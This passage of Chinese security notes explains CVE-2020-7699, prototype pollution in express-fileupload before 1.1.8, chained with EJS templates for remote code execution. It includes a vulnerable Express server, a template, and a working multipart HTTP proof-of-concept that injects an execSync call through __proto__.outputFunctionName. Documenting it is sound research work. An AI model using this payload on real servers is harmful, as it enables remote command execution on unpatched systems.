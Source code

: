 ####  express-fileupload - CVE-2020-7699

- 版本要求：express-fileupload < 1.1.8; `parseNested = true`

同样是这个版本的express-fileupload，还可以结合ejs模板实现RCE

server.js

```js
const express = require('express')
const fileupload = require('express-fileupload')
const app = express()

app.use(fileupload({parseNested: true}))
app.get('/', (req, res)=>{
    console.log(Object.prototype.polluted)
    res.render('index.ejs')
})

var server = app.listen(3000, function (){
    var host = server.address().address
    var port = server.address().port
    console.log('url: http://%s:%s/', host, port)
})
```

index.ejs

```html
<!DOCTYPE html>
<html>
<head>
    <meta charset="utf-8">
    <title></title>
</head>
<body>

<h1><%= message%></h1>

</body>
</html>
```

poc

```http
POST / HTTP/1.1
Host: 192.168.18.1:3000
Content-Type: multipart/form-data; boundary=--------1566035451
Content-Length: 202

----------1566035451
Content-Disposition: form-data; name="__proto__.outputFunctionName";

_tmp1;global.process.mainModule.require('child_process').execSync('calc');var __tmp2
----------1566035451--

```
